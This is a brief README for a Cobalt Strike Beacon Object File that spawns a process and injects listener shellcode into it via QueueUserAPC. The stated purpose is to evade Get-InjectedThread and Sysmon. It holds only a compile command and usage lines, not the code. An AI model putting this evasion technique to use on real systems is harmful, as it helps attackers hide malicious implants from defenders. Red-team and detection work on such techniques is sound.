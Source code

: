 # QueueUserAPC Spawn

A Beacon Object File QueueUserAPC spawn and inject used to bypass Get-InjectedThread and Sysmon.

Spawn a path child process and injects shellcode into it.

# Compile
`x86_64-w64-mingw32-gcc -c qua_spawn.c -o qua_spawn.o`

# Usage

NOTE: Currently only for x64

Load the CNA script in Cobalt Strike, then the following command will be included:

`qua_spawn PATH Listener` - Inject shellcode created for listener to target PID

`qua_spawn C:\Windows\System32\calc.exe Test` - Example to spawn calc.exe with a listener named Test 

# Credit
Based on Seuro Security Joshua's https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/
